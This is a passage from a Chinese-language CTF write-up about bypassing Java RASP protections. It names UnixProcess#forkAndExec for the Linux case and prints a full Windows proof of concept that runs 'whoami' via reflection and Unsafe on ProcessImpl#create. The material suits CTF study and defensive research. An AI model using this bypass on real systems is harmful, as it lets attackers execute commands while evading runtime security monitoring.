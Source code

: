 ```java
            writer.close();
    } catch (Exception e) {

    }

}

    public static void main(String[] args) {

    }
}
```

这里不出网的环境，Thread.slepp(9999) 也应该执行的呀

读取rasp的流程就省略了，具体可看安恒月赛那道题

![image-20231118185217491](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231118185217491.png)

![image-20231118185224916](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231118185224916.png)

这道题的话相比于安恒仁慈了，通过调用下面的UnixProcess#forkAndExec就可以绕过，碰见这个方法直接返回了

![image-20231118185730405](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231118185730405.png)

这是windows绕过的例子，通过底层  ProcessImpl#create方法

```java
public class aaaaa {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("sun.misc.Unsafe");
        Field field = clazz.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        Class<?> processImpl = Class.forName("java.lang.ProcessImpl");
        Process process = (Process) unsafe.allocateInstance(processImpl);
        Method create = processImpl.getDeclaredMethod("create", String.class, String.class, String.class, long[].class, boolean.class);
        create.setAccessible(true);
        long[] stdHandles = new long[]{-1L, -1L, -1L};
        create.invoke(process, "whoami", null, null, stdHandles, false);

        JavaIOFileDescriptorAccess fdAccess
                = sun.misc.SharedSecrets.getJavaIOFileDescriptorAccess();
        FileDescriptor stdout_fd = new FileDescriptor();
        fdAccess.setHandle(stdout_fd, stdHandles[1]);
        InputStream inputStream = new BufferedInputStream(
                new FileInputStream(stdout_fd));

        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));

        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println(line);
        }
    }
}
```
